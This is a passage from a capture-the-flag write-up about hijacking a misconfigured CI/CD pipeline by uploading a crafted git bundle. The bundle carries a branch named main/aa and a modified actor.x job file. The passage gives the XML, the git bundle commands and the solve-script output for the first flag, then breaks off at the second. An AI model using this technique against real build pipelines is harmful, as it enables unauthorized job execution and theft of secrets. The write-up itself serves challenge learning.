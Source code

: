 Using a combination of these things, we can use the race condition to make the job run a script that we control.

We also have to add in that script, and there is a secrets binary on the remote server that will read the secrets.

This binary was not provided during the challenge, but its existance was indicated, and it does provide helpful tips on now to use it to read flags.
## Exploitation
**Exploit overview**: This exploit uses a misconfigured CICD pipeline to allow us to change the configuration settings of that pipeline, allowing us to run arbitrary jobs on the server. This requires two steps. We need two of 

**Input restrictions**:
We have to send a git bundle, and since normal git operations are being used, it should be a valid git bundle.

**Exploit Description**: 

### Flag 1
We have to create a git bundle that has a branch called main/aa. This branch should have a modified `actor.x` file that will run the flag job. 

Once we change `actor.x` to say something like this:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<actor fail_fast="true">
  <job name="flaguno">
    <input name="app_name">todo-list</input>
  </job>
</actor> 
```

We then run the following command to create the bundle (run from the app dir, within the git_attack dir):
```bash
git add .
git commit -m "exploit"
git branch -M main/aa
git bundle create ../exp.bundle main/aa
```

This will create a bundle called exp.bundle in the parent directory. 

From here, we can run the solve script, which will connect to the server and send the bundle.
```python
python3 solve.py
```

Doing this against our test enviroment, we get the following output:
```
14:53:58.168 [info] Job flaguno completed with status: 0
Job flaguno completed.

14:53:58.168 [info] flug{placeholder_flag1_____its_pretty_long:edee0fe3e6a80c34ef49a77ef9b11673f675c438e22e1c1eef982fb4082c
2aeab164569a672f67c64c059b872a}
```
### Flag 2
This break is a bit more complex, it requires to exploit that race condition to run a script that we control.
